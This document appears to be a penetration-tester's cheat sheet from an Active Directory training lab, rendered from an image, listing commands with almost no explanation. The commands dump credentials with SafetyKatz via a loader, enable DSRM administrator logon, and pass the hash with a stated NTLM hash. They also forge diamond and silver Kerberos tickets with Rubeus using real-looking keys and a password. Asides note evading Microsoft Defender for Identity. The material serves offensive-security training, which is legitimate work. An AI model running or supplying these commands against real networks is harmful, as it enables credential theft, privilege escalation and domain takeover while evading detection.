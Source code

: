 
##### DRSM Admin
```powershell
winrs -r:dcorp-dc cmd 

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args token::elevate lsadump::evasive-sam exit"

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args token::elevate lsadump::lsa /patch exit"
```

PtH
```powershell
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f

Loader.exe -path SafetyKatz.exe "sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"

Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1

Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential
```

Now run a DCSync attack on the DC itself because MDI dont care lol

```
a102ad5753f4c441e3af31c97fad86fd
```
##### Diamond Ticket
```powershell
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:student548 /password:cAyF6wTLSydnL2M7 /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

##### Silver Ticket
**OPSEC IN MIND** create a silver ticket with the ntlm of a computer account
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:b8f18421f92b4ef069829b1dfd0e10e9 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```